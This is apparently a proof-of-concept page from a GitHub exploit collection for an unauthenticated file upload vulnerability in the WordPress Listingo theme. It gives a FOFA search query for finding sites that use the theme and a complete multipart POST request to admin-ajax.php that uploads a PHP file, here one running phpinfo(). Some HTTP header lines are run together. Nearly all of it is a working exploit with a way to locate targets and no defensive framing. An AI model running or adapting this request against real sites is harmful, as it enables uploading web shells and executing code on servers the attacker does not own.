 ##  wordpress listingo 文件上传漏洞

## fofa
```
body="wp-content/themes/listingo"
```

## poc
```
POST /wp-admin/admin-ajax.php?action=listingo_temp_uploader HTTP/1.1
Host: targetUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8rVjnfcgxgKoytcgAccept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 531

------WebKitFormBoundary8rVjnfcgxgKoytcg
Content-Disposition: form-data; name="listingo_uploader";filename="1008.php"
Content-Type:text/php

<?phpphpinfo();?>
------WebKitFormBoundary8rVjnfcgxgKoytcg
Content-Disposition: form-data; name="submit"

Start Uploader
------WebKitFormBoundary8rVjnfcgxgKoytcg--
```
![image](https://github.com/wy876/POC/assets/139549762/8b115456-bcbe-4d0f-b51d-add3dcf0db78)
